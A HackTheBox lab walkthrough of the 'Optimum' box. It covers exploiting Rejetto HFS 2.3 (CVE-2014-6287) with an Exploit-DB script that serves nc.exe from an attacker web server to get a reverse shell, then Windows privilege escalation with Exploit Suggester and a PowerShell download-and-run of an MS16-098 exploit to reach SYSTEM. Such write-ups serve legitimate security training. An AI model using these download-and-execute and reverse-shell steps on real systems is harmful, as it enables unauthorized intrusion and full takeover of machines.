 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Optimum"
author: "Emmet Friel"
categories: HackTheBox
image: htb/optimum/optimum.png
---
```


# Introduction

This box was interesting in the sense it really honed in on the importance of enumeration, gave me a solid foundation on windows privilege escalation that I can refer back to and that you can’t rely on the exploit tools to do all the work for you! Lets get started.

# Reconnaissance & Enumeration

```bash
root@kali:~# nmap -sC -sV -O -p- -oN nmap.nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 10:53 BST
Nmap scan report for 10.10.10.8
Host is up (0.029s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.40 seconds
```
- -sC : scripting scan, equivalent to also writing –script=default
- -sV: service version
- -O  : Operating System version
- -p- : scanning all 65536 ports
- -oN: Output result to a normal text file called nmap.nmap

| ![image]({{site.baseurl}}/assets/img/htb/optimum/hfs_opt.png) |
| :--: |
| *HFS Webpage running on port 80* |

Any webpage running on port 80 I always perform a dirb and nikto scan in the background, so I did just that however a quick search on the service version gave me everything I needed to get access into the system. 

The exploit I used was: <a href="https://www.exploit-db.com/exploits/39161" target="_blank_">Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</a> which refers to CVE-2014-6287. The vulnerability is 
> “The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.” In other words, using the search bar on the website we can execute code server side using the null sequence.

There are now two approaches to exploit the machine: 
1. Execute commands in the search bar on the website using the null byte (%00)
2. Use the exploit script we found through a quick search.

For simplicity, I am going to use the scripting option.

# Shell Access

To use the script there are 3 important variables:

1. Change the IP address to your own: 
```bash
ip_addr = "192.168.44.128" #local IP address
```

2. Change the port which you are going to listen on:
```bash
	local_port = "443" # Local Port number
```

3. Host a webserver serving netcat (nc.exe). I am using SecLists GitHub repo for nc.exe which you can clone from their GitHub page.
```bash
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

Once I edited the script, I setup my netcat listener, python webserver and then executed the script: ```python 39161.py <target IP> <target port>``` 
Note that it may take a few attempts for the script to work. 


| ![image](/assets/img/htb/optimum/opt_terminal.png) |
| :--: |
| *Running the attack and having a reverse shell access to the victim machine* |


# Privilege Escalation using Windows Suggester

You can see I am user “kostas” from the terminal. I do not have Admin permissions so it’s time to escalate to root! To do this I used the <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester" target="_blank_">Windows Exploit Suggester</a> tool. The tool is really simple and extremely powerful, it compares all the patches on the machine to Microsoft’s patch database and outputs a “suggested” list of exploits. I have seen older tutorials use “Sherlock” instead of “Windows Suggester” but if you have a look at Sherlock’s GitHub, the repo hasn't been updated in 3 years :\ 

To do this, run ```systeminfo``` and then copy and paste the output to a file: ```systeminfo.txt``` in my case 

```windows
C:\Users\kostas\Desktop>systeminfo
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-04-07-mssb.xls
[*] done
```
```bash
root@kali:~/Documents/boxes/optimum# python windows-exploit-suggester.py --database 2020-04-07-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) – Critical
```

The output of windows-exploit-suggester shows a grand collection of exploits to try out so at this stage it’s really trial and error. Note that some attempts caused the machine to crash and so you would have to set up the reverse shell again, nothing major.
After trial and error, MS16-098 got me that nice root shell :)

I placed the exploit on the python webserver, downloaded it from the victims machine and then executed it.

```windows
C:\Users\kostas\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.X.X.X/bfill.exe','C:\Users\kostas\Desktop\exploit.exe')
```

```windows
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved. 

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```